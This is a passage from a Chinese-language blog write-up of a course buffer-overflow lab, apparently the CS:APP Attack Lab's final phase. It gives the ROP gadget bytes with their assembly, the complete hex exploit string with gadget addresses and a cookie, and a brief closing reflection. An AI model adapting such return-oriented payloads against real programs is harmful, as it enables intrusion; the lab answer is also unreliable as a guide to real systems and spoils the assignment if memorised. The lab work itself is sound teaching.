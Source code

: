 最后要构造的字节码应有如下结构（地址从低到高）

```
48 89 e0    movq %rsp,%rax
48 89 c7    movq %rax,%rdi
58          popq %rax
# offset 0x48
89 c2       movl %eax,%edx
89 d1       movl %edx,%ecx
89 ce       movl %ecx,%esi
48 8d 04 37 lea  (%rdi,%rsi,1),%rax
48 89 c7    movq %rax,%rdi
# cookie string
```

结果如下

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
69 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
00 00 00 00 00 00 00 00
```

最后提交 PASS 此处完结撒花

## 写在后面

虽然就五个实验，但可以让我们感受到什么是Buffer Overflow，以及对应的攻击方式。

~~也许还可以作为PWN的入门课~~

~~好像真没什么必要弄个写在后面~~
